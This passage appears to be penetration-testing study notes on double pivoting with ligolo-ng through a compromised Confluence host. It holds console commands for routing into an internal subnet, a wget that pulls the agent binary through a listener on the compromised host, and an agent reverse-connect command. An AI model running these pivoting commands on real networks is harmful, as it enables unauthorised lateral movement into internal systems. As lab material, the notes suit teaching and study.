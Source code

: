 - With the above info, we can set up our route using `interface_add_route` to `10.4.245.0/24` - once added we can use `interface_list` to verify
```zsh
[Agent : confluence@confluence01] » interface_add_route --name ligolo --route 10.4.245.0/24
INFO[1278] Route created.
[Agent : confluence@confluence01] » interface_list
┌───────────────────────────────────────────────────────────┐
│ Available tuntaps                                         │
├───┬──────────┬────────────────────────────────────────────┤
│ # │ TAP NAME │ DST ROUTES                                 │
├───┼──────────┼────────────────────────────────────────────┤
│ 0 │ tun0     │ 192.168.245.0/24,fe80::/64,192.168.45.0/24 │
│ 1 │ ligolo   │ 10.4.245.0/24                              │
└───┴──────────┴────────────────────────────────────────────┘
[Agent : confluence@confluence01] »
[Agent : confluence@confluence01] » start
[Agent : confluence@confluence01] » INFO[0231] Starting tunnel to confluence@confluence01 (17554a8a-0a6e-4fd0-b9b5-d11b77ff2bc3)
```
- Once we have the route added, we start tunneling using `start` within our session. After that we are able to interact with the target network
> [!WARNING]
> Because the _agent_ is running without privileges, it's not possible to forward raw packets. When we perform a NMAP SYN-SCAN, a TCP connect() is performed on the agent. 
> When using _nmap_, we should use `--unprivileged` or `-PE` to avoid false positives.

## Ligolo Double Pivot
- To transfer the `agent` binary to our new target through our already connected _agent_ we set up an additional listener
```zsh
[Agent : confluence@confluence01] » listener_add --addr 0.0.0.0:9000 --to 127.0.0.1:9000 --tcp
INFO[3555] Listener 0 created on remote agent!

wget http://10.4.245.63:9000/agent
```
> [!Warning]
> Apparently the ports need to match - otherwise `ligolo` seems to have trouble
- In order to pivot again we need to create a second tunnel interface on our _proxy_, set up a listener on our already connected _agent_ and then connect from our new target using the `agent` binary again
```zsh
[Agent : confluence@confluence01] » interface_create --name ligolo2
INFO[4581] Creating a new "ligolo2" interface...
INFO[4581] Interface created!

[Agent : confluence@confluence01] » listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp
INFO[4542] Listener 3 created on remote agent!

/agent -connect 10.4.245.63:11601 -ignore-cert -retry

```
> [!HINT]
> Use the `-retry` option to automaticaly recovery tunnels and listeners in case of unstalbe networ or a loss of TCP connection as per [issue](https://github.com/nicocha30/ligolo-ng/issues/101)
